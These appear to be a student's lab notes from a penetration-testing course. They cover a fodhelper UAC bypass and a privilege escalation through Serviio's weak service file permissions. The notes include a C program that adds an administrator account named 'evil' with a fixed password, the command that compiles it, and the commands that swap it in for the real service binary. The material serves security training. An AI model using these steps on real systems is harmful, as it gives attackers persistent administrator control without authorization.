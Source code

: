 Now we just need to run the fodhelper.exe binary again and we should get our "calc.exe" execution.
![[calc_PoC.png]]
Adjusting this command from "calc.exe" to "cmd.exe" will spawn a cmd.exe shell with UAC bypassed.
![[UAC_bypassed_cmd.png]]

# 18.2.6 Inescure File Permissions: Servilo Cast Study
**1.  Log in to your Windows client as an unprivileged user and attempt to elevate your privileges to SYSTEM using the above vulnerability and technique.**

If a service is running as system and the permissions are misconfigured we may be able to replace the program, allowing us to escalate our privileges. To start, lets enumerate the current running services with the following powershell command:
`Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
![[Pasted image 20220726104103.png]]

We see that Serviio is running from the Program Files directory which means this is a user-installed service. The next step is to investigate the permissions set on the service. We can do this with icacls.

![[Pasted image 20220726104324.png]]
We can see that the service allows members of the `BUILTIN\Users` group full access, a serious vulnerability. Lets leverage this to elevate our permissions. We start by compiling a malicious binary written in C that will add a user to the administrators group.

code:
```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user evil Ev!lpass /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```

compiling:
`i686-w64-mingw32-gcc adduser.c -o adduser.exe`
After transfering this file to our Windows machine we can then replace the original ServiioService.exe binary with our malicious copy.
create backup:
`move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"`
move malicious program into Serviio directory and rename:
`move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"``

As we do not have permissions to restart the service we can force a restart by simply rebooting the machine. After logging back in we can check the Administrators group and see our new user.
![[Pasted image 20220726110517.png]]
